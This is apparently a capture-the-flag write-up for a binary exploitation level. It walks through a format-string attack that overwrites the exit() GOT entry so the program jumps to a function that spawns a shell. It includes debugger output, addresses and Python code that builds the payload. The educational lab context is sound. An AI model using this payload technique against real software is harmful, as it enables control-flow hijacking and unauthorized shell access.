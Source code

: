 ### Exploitation Challenge
- **Unreachable Code**: Function o() contains the desired system() call but is never called
- **Execution Flow**: `main() → n() → printf() → exit(1)` (terminates)
- **Goal**: Redirect execution to function o() at address 0x080484a4

## Key Discovery - GOT Overwrite Attack Vector

### Analysis Results
```bash
# Function addresses from GDB:
(gdb) print o
$1 = {<text variable, no debug info>} 0x80484a4 <o>

# GOT entry locations from readelf:
readelf -r level5 | grep exit
08049838  00000607 R_386_JUMP_SLOT   00000000   exit

# Stack position discovery:
echo "AAAA%1\$x.%2\$x.%3\$x.%4\$x..." | ./level5
# Result: 41414141 appears at position 4
```

### Critical Values Identified
- **Function o() address**: `0x080484a4` (134,513,828 decimal)
- **exit() GOT entry**: `0x08049838` 
- **Stack position**: 4 (where our input buffer appears)
- **Attack method**: Overwrite exit() GOT to point to o()

## Exploitation Strategy

### GOT Overwrite Technique
Instead of trying to reach function o() directly, we hijack the exit() function call:

1. **Use format string %n to write arbitrary values to arbitrary addresses**
2. **Overwrite the GOT entry for exit() to point to function o()**
3. **When exit(1) is called, execution jumps to o() instead**
4. **Function o() calls system("/bin/sh") giving us a shell**

### Payload Construction
```python
# Target: Write 0x080484a4 to address 0x08049838
target_address = 0x08049838    # exit() GOT entry  
target_value = 0x080484a4      # function o() address
stack_position = 4             # where our input appears

payload = struct.pack('<L', target_address)  # 4 bytes: where to write
remaining = target_value - 4                 # what to write (minus 4 for address bytes)
payload += "%" + str(remaining) + "c"        # width specifier for large number
payload += "%" + str(stack_position) + "$n" # write command
```
